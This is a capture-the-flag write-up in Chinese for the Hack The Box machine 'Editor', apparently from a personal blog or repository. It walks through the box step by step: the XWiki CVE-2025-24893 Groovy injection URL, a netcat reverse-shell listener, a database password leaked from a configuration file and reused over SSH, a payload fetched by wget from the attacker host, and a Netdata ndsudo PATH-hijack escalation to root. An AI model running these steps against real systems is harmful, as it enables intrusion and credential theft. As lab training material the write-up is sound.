# HTB Season8 Editor WriteUp

## 1. 信息收集

### 1.1 端口扫描

```bash
nmap -sS -sV -O -A -T4 -p- 10.10.11.80
```


结果:

端口22>：OpenSSH 8.9p1
端口80：nginx 1.18.0 (Ubuntu)
端口8080：Jetty 10.0.20

### 1.2 hosts文件

访问80端口后重定向至editor.htb,将域名添加至hosts文件
```bash
10.10.11.80 editor.htb
```
80端口页面点击Docs发现外连至wiki.editor.htb,将域名添加至hosts文件
```bash
10.10.11.80 wiki.editor.htb
```

### 1.3 目录扫描

```bash
dirsearch -u 'http://editor.htb'
```
没有可利用的目录
```bash
dirsearch -u 'http://wiki.editor.htb'
```
没有可利用的目录

### 1.4 网站分析

#### editor

除了Docs外,其余没有利用价值

#### wiki

发现使用xwiki模板,版本为:15.10.8

### 1.5 漏洞利用

搜索xwiki 15.10.8 漏洞,发现CVE-2025-24893


#### 1.5.1 CVE-2025-24893漏洞描述

XWiki Platform 是一个通用的wiki平台，为在其上构建的应用程序提供运行时服务。通过向 `SolrSearch` 发起请求，任何访客都可以执行任意的远程代码。这会影响整个XWiki安装的安全性、完整性和可用性。要在实例上复现此问题，无需登录，请访问 `<host>/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln("Hello from search text:" + (23 + 19)){{/groovy}}{{/async}}`。如果有输出，并且RSS标题包含“Hello from search text: 42”，则该实例存在漏洞。

### CVE-2025-24893-POC

POC链接:https://github.com/hackersonsteroids/cve-2025-24893
POC要求:
1. python版本>=3.6
2. 安装requests库
```bash
pip install requests
```
使用方法:

```bash
nc -lvvp <LPORT>
./exploit.py <TARGET_DOMAIN> <LHOST> <LPORT>
```





成功得到xwiki的shell


### 1.6 提权

xwiki的shell为程序权限,并且xwiki有关配置由root用户所有,无法修改配置文件使用超级管理员登入网站后台,因此要将shell权限提升至普通用户oliver,才能进行root权限提升;

#### 1.6.1 xwiki配置文件

xwiki配置文件路径为:/etc/xwiki/
其中hibernate.cfg.xml文件下存放数据库的配置文件

发现MySQL用户名密码
```xwiki:theEd1t0rTeam99```

成功登入mysql,但搜索一番无果,尝试修改xwiki平台的neal用户密码无果

#### 1.6.2 普通用户oliver权限

尝试将数据库密码用su切换至普通用户oliver失败,但使用ssh登入至oliver用户成功
```bash
ssh oliver@10.10.16.80
theEd1t0rTeam99
```



查看用户权限
```bash
id
```


发现oliver用户在netdata组内,查看netdata版本  

---

因为netdata不在oliver用户的环境变量中,所以无法直接使用netdata命令,需要使用绝对路径执行netdata命令

```bash
cd /opt/netdata/usr/bin
./netdata -v
```
or
```bash
/opt/netdata/usr/bin/netdata -v
```



#### 1.6.3 root用户权限

搜索该版本的netdata是否有漏洞



##### 1.6.3.1 CVE-2024-32019漏洞详解

ndsudo：通过不受信任的搜索路径进行本地权限提升

##### 漏洞概述

Netdata 是一款开源的可观测性工具。在受影响的版本中，随 Netdata Agent 发布的 `ndsudo` 工具允许攻击者以 root 权限执行任意程序，从而造成本地权限提升。

##### 影响版本

1.45.3 及 1.45.2-169 之前的版本

##### 漏洞细节

`ndsudo` 工具作为 `root` 所有者并设置了 SUID 位的可执行文件。虽然它只运行一个受限的外部命令集，但其搜索路径是由 `PATH` 环境变量提供的。这允许攻击者控制 `ndsudo` 用于查找这些命令的路径，而这些路径可能是攻击者具有写权限的。因此，可能导致本地权限提升。

##### 影响

可以通过利用此漏洞以普通用户身份执行任意 root 权限的操作，从而导致不受限制的权限。

##### 1.6.3.2 CVE-2024-32020-POC

POC地址:https://github.com/AzureADTrent/CVE-2024-32019-POC

#### 1. 先决条件:

* 在目标系统上具有本地 shell 访问权限
* 可以执行以下命令，但它会失败并显示“找不到”或类似错误：

```bash
./ndsudo nvme-list
```



#### 2. 编译POC

```bash
gcc poc.c -o nvme
```

#### 3. 将nvme传输至目标

将编译后的二进制文件移动或上传到用户可写的目录，例如：/tmp/nvme

```bash
#在攻击机开启简单web服务器用于传输POC
python -m http.server
#目标服务器主动接受POC
wget http://<攻击机IP>:8000/nvme
```

#### 4. 准备执行POC

```bash
chmod +x /tmp/nvme
export PATH=/tmp:$PATH
```

#### 5. 执行POC

```bash
#找到ndsudo的存放位置
find / -name '*ndsudo*' 2>/dev/null
#执行POC
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list

or

cd /opt/netdata/usr/libexec/netdata/plugins.d
./ndsudo nvme-list
```

提权至root成功



